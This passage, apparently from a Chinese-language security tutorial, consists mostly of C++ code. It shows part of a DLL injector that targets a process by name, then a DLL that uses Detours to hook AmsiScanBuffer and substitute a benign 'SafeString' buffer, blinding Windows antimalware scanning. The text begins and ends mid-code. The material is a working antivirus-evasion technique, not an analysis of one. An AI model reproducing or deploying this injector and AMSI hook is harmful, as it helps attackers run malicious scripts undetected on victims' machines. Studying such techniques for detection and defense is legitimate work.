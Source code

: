 ```
    return 0;
}

int main(int argc, char** argv)
{
    const char* processName = argv[1];
    char* dllName = argv[2];
    DWORD procID = GetProcIDByName(processName);
    std::cout << "[+] Got process ID for " << processName << " PID: " << procID << std::endl;
    if (InjectDll(procID, dllName)) {
        std::cout << "DLL now injected!" << std::endl;
    } else {
        std::cout << "DLL couldn't be injected" << std::endl;
    }
}
```

*   现在来创建一个 dll 以及导出函数 AmsiScanBuffer

```
#include <Windows.h>
#include <detours.h>
#include <amsi.h>
#include <iostream>
#pragma comment(lib, "amsi.lib")

#define SAFE "SafeString"

static HRESULT(WINAPI* OriginalAmsiScanBuffer)(HAMSICONTEXT amsiContext,
    PVOID buffer, ULONG length,
    LPCWSTR contentName,
    HAMSISESSION amsiSession,
    AMSI_RESULT* result) = AmsiScanBuffer;

//Our user controlled AmsiScanBuffer
__declspec(dllexport) HRESULT _AmsiScanBuffer(HAMSICONTEXT amsiContext,
    PVOID buffer, ULONG length,
    LPCWSTR contentName,
    HAMSISESSION amsiSession,
    AMSI_RESULT* result) {

    std::cout << "[+] AmsiScanBuffer called" << std::endl;
    std::cout << "[+] Buffer " << buffer << std::endl;
    std::cout << "[+] Buffer Length " << length << std::endl;
    return OriginalAmsiScanBuffer(amsiContext, (BYTE*)SAFE, length, contentName, amsiSession, result);
}

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  dwReason,
    LPVOID lpReserved
)
{
    if (DetourIsHelperProcess()) {
        return TRUE;
    }

    if (dwReason == DLL_PROCESS_ATTACH) {
        AllocConsole();
        freopen_s((FILE**)stdout, "CONOUT$", "w", stdout);

        DetourRestoreAfterWith();
        DetourTransactionBegin();
        DetourUpdateThread(GetCurrentThread());
```